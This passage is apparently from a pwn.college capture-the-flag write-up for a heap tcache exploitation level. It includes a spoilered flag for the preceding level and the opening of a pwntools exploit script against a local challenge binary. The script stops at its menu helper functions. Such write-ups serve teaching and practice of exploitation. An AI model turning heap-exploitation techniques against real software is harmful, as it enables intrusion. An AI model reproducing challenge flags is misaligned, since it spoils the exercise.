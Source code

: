 ## Flag

:spoiler[`pwn.college{klIR9JBrG0FfOAzXz_dLAeG0C5g.01N4MDL5cTNxgzW}`]

# Level 9.1

## Information

- Category: Pwn

## Description

> Leverage TCACHE exploits to pass a validation check.

## Write-up

参见 [Level 9.0](#level-90)。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    p32,
    process,
    raw_input,
    remote,
)


FILE = "/challenge/babyheap_level9.1"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode())


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode())


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode())
```